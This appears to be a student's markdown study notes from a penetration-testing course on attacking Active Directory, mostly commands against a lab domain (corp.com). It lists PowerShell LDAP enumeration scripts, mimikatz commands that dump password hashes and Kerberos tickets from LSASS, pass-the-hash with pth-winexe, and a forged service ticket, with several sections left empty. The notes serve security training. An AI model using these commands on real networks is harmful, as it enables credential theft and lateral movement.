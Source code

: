 # PWK PDF Highlights

## Enumeration

### Traditional Approach

```powershell
net user  # Enumerates all local accounts
net user /domain  # Enumerate all users in the domain
net user jeff_admin /domain  # Query specific user details (check groups)
net group /domain  # Enumerate all groups in the domain (identify nested groups)
```

### Modern Approach

Discover the hostname of the domain controller and the components of the DistinguishedName

```powershell
# Using PowerShell
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

#### Script

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="samAccountType=805306368"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
Foreach($prop in $obj.Properties)
{
$prop
}
Write-Host "------------------------"
}
```

### Resolving Nested Groups

#### List all groups in the domain

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(objectClass=Group)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
$obj.Properties.name
}
```

#### List members of a group

Specify a group to list members of after identifying a list of groups.

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(name=Secret_Group)"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
$obj.Properties.member
}
```

This is where we could find another group which would be a nested group within Secret\_Group.

To list the members of the nested group we would perform the same script updating the `name.$Searcher.filter="(name=Nested_Group)"`

### Currently Logged in Users

```powershell
Import-Module .\PowerView.ps1
Get-NetLoggedon -ComputerName client251
Get-NetSession -ComputerName dc01
```

### Enumeration through SPNs

```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = ($domainObj.PdcRoleOwner).Name
$SearchString = "LDAP://"
$SearchString += $PDC + "/"
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))"
$SearchString += $DistinguishedName
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="serviceprincipalname=*http*"
$Result = $Searcher.FindAll()
Foreach($obj in $Result)
{
Foreach($prop in $obj.Properties)
{
$prop
}
}
```

In the output we get a 'serviceprincipalname'. May suggest a webserver if HTTP is shown.

Attempt to resolve the webserver domain using nslookup

```powershell
nslookup CorpWebServer.corp.com
```

Returns an internal IP address which also happens to be the Domain Controller. We can navigate to the IP so find more information.sh

## Authentication

### NTLM Authentication

### Kerberos Authentication

### Cached Credential Storage and Retrieval

Stored in the Local Security Authority Subsystem Service (LSASS)

```powershell
# May need elevated privilges
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords  # dumps hashes for all logged on users current machine
# Grab hashes
```

```powershell
mimikatz.exe
privilege::debug
sekurlsa::tickets  # Check for kerberos tickets stored in memory
# Lookg for Ticket Granting Service and Ticket Granting Ticket
```

### Service Account Attacks

```powershell
# Using PowerShell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'H
```

See other documented notes for remaining details.

### Low and Slow Password Guessing

```powershell
net accounts  # Check lockout threshhold and lockout observation window
```

See other documented notes for remaining details.

## Lateral Movement Techniques

### Pass the Hash

```bash
# From Kali
pth-winexe -U <user>%<NTLM Hash> <IP> <command>
pth-winexe -U offsec%<NTLM Hash> //10.11.0.22 cmd
```

### Overpass the Hash

See other documented notes for remaining details.

### Pass the Ticket

```powershell
whoami /user  # Grab the SID
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
mimikatz # kerberos::list
```

### Distributed Component Object Model

See other documented notes for remaining details.

## Persistence

### Golden Tickets

### Domain Controller Synchronization
